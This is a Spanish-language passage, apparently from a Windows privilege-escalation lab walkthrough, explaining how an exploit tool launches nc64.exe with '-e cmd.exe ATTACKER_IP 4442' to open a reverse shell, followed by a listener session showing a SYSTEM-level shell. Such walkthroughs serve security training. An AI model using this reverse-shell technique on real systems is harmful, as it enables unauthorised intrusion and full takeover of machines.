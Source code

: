 El `-p`parámetro especifica el ejecutable que ejecutará el exploit, que `nc64.exe`en este caso es. El `-a`parámetro se utiliza para pasar argumentos al ejecutable. Como queremos que nc64 establezca un shell inverso contra nuestra máquina atacante, los argumentos para pasar a netcat serán `-e cmd.exe ATTACKER_IP 4442`.

Si todo estuvo configurado correctamente, debería esperar un shell con privilegios de SISTEMA:

```shell-session
user@attackerpc$ nc -lvp 4442
Listening on 0.0.0.0 4442
Connection received on 10.10.175.90 49755
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
nt authority\system
```
